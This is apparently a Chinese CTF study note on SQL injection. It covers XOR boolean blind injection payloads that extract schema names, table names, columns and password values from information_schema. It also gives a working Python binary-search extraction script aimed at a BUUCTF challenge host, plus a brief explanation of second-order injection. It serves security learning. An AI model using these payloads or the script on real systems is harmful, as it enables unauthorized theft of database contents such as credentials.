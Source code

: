 ## **sql注入考点**
有可能flag在表中，有可能sql注入出账户密码再登录后配置其他漏洞。

利用报错，布尔，二次注入获取同库不同表的记录。

高权限注入：常规查询，跨库查询，文件读写。
堆叠注入：不限制于查询语句，甚至提权命令执行。

## **布尔盲注**
部分sql盲注入如逻辑布尔盲注回显差异，需要使用代码一个一个字符跑出来。

异或盲注?id=1^1^1，
1^1同为0
1^0异为1
1^1^1值为1
1^0^1值为0
在这个前提下，分析回显内容的字符差异，进行布尔盲注，代码中使用二分法加快布尔盲注。
```
substr("abc",1,1)获取第一位置的1个字符
ord()字符转ascii的数值
ascii()字符转ascii的数值

先判断是否布尔差异，并判断过滤字符
1^length(database())>4
1^(length(database())=4)
1^length(database())<4


布尔，再异或的差异，获取表名
1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1))>0)^1
[*] F1naI1y,Flaaaaag~
猜测列名
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='表名')),1,1))>0)^1
猜测列的值
1^(ord(substr((select(group_concat(列名))from(表名)),1,1))>0)^1

从中可以利用二分法加速
select ascii() %s %d   
python中%s运算符%d每次的中间值，比较的结果select
```
基本脚本模板
```
# [极客大挑战 2019]FinalSQL
# 异或布尔差异
# 先注出库名，在注入表名，表名中注出字段名，注出字段对应值。
# 使用select group_concat()带出字段所有的记录值为一个字符串。
# 使用布尔差异+二分法判断得出这个字符串内容。

import requests
import time

url = "http://f104602b-272b-426a-ae30-5c34b4510270.node5.buuoj.cn:81/search.php?"
temp = {"id": ""}
column = ""
for i in range(1, 1000):
    time.sleep(0.06)
    low = 32
    high = 128
    mid = (low + high) // 2
    while (low < high):
        # 库名
        # temp["id"] = "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1" % (i, mid)
        # temp["id"] = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, mid)

        # 表名
        # temp["id"] = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" %(i,mid)
        # 字段名
        # temp["id"] = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1" %(i,mid)
        # 内容
        # temp["id"] = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" %(i,mid)
        r = requests.get(url, params=temp)
        time.sleep(0.04)
        # print(low, high, mid, ":")
        if "Click" in r.text: #回显差异，存在Click字符则是对了
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 127):
        break
    column += chr(mid)
    print(column)

print("All:", column)
```






^
## **二次注入**

往往可以注册，先把payload注入数据库，
再在另一个页面，如详细资料，修改信息等页面，会查询出来并二次直接查询数据库，造成二次注入。
